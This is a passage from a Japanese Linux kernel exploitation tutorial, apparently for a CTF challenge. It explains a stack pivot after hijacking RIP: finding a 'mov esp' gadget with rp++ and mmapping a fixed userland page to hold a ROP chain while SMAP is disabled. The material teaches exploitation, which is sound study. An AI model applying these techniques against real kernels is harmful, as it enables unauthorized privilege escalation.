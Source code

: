 RIPが取れました。

## stack pivotによるROP

さて、ここまででRIPを取ることができました。
あとはRIPを取るだけです。

今回はSMAPを無効にしているため、 **予めuserlandにROP-chainが入った領域を用意しておき**、
**RIPを奪った最初の命令でRSPをuserlandの領域に向ける** ことでROPをすることにしましょう。

なお、RSPを1命令で任意の値にすることは難しいため、今回は以下のようなガジェットを使います:

```sh
$ rp++ --file ./vmlinux -r1 | grep -e "mov esp, "
...
0xffffffff8110b470: mov esp, 0x5D001690 ; ret ; (1 found)
...
```

このタイプのガジェットならばたくさん落ちていますが、stackとして使うため下1byteはアラインされているものを選んでください。
ガジェットを決めたら、`0x5D001690`にROP-chainを置いておきます:

```c
puts("[+] Allocating pivot stack...");
ulong pivot_stack_gadget = kbase + 0x10B470;  // mov esp, 0x5D001690
ulong pivot_stack_exact = 0x5D001690;
ulong pivot_stack = pivot_stack_exact & ~0xFFF;
ulong *stack = mmap((void *)pivot_stack, PAGE, PROT_READ | PROT_WRITE,
                    MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, -1, 0);
if (stack == MAP_FAILED) {
  perror("[-] mmap(stack)");
  exit(EXIT_FAILURE);
}
```

あとはここにROP-chainを書き込んでおくだけです。
ROP-chainについては [SMAP/KPTI](/kernel/smap) の章を参照してください。

----------------------------

これでSLUB内で隣接するkernel構造体を利用してKASLRのバイパス及びRIPの奪取が出来るはずです。
ぜひリモートでフラグを取ってみてください！
